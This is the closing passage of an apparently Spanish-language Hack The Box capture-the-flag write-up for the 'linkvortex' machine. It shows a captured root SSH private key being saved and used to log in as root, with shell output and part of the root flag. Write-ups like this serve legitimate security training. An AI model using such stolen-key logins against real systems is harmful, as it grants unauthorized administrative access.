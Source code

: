 Y podemos comprobar que funciona y que además `root` tiene una clave privada, ahora podemos guardar esta clave privada en un fichero y darle los permisos necesarios.
```console
chmod 600 id_rsa
```

Y ya podemos autenticarnos como `root` por SSH utilizando su clave privada.
```console
ssh root@10.129.112.131 -i id_rsa
Welcome to Ubuntu 22.04.5 LTS (GNU/Linux 6.5.0-27-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

This system has been minimized by removing packages and content that are
not required on a system that users do not log into.

To restore this content, you can run the 'unminimize' command.
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings

Last login: Mon Dec  2 11:20:43 2024 from 10.10.14.61
root@linkvortex:~# id
uid=0(root) gid=0(root) groups=0(root)
```

Podemos leer la flag de root.
```console
root@linkvortex:~# cat root.txt
b44e1fbd2075...
```

¡Y ya estaría!

Happy Hacking! 🚀
